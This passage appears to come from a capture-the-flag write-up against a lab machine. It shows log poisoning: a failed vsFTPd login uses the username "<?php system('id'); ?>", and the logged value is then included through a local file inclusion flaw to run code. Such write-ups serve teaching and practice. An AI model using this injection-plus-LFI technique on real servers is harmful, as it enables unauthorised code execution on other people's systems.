 I can try to log in with FTP, and the new login shows up as well:

![](/img/image-20211130175556231.png)

Not only are attempts logged, but the username is in the logs.

I tried another failed login:



    oxdf@parrot$ ftp 10.10.10.249
    Connected to 10.10.10.249.
    220 (vsFTPd 3.0.3)
    Name (10.10.10.249:oxdf): <?php system('id'); ?>
    331 Please specify the password.
    Password:
    530 Login incorrect.
    Login failed.
    ftp> 



On refreshing the page with the logs in LFI, I have code execution:

![](/img/image-20211021063650139.png)
